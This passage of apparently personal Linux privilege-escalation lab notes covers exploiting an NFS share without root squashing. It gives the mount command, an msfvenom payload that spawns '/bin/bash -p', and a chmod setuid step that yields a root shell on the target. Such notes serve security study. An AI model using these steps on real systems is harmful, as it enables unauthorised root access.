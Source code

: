 

## nfs



Files created via NFS inherit the **remote** user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.

Check the NFS share configuration on the Debian VM:



![image-20200814231330272](linuxPrivesc.assets/image-20200814231330272.png)

mounting the directory

```bash
mkdir /tmp/nfs
sudo mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs
```



payload bash shell with preserved permission

```
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```

set uid with root user on kali

```
chmod +xs /tmp/nfs/shell.elf
```

![image-20200814231910191](linuxPrivesc.assets/image-20200814231910191.png)
